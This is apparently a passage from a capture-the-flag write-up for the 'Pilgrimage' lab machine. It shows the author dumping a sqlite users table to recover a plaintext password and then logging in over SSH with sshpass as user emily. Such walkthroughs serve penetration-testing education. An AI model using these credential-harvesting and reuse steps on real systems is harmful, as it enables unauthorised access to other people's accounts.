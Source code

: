 ### Database Enumeration

I’ll open the database with `sqlite3`:

```
oxdf@hacky$ sqlite3 pilgrimage.sqlite
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite>

```

There are two tables:

```
sqlite> .tables
images  users

```

The `images` table doesn’t look interesting, but the `users` table does:

```
sqlite> .schema users
CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
sqlite> .schema images
CREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL);

```

There’s only a single user (mine must have been cleaned out):

```
sqlite> select * from users;
emily|abigchonkyboi123

```

### SSH

emily is a user on Pilgrimage (from the `/etc/passwd` file). This password works to connect over SSH:

```
oxdf@hacky$ sshpass -p abigchonkyboi123 ssh emily@pilgrimage.htb
Warning: Permanently added 'pilgrimage.htb' (ED25519) to the list of known hosts.
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
emily@pilgrimage:~$

```
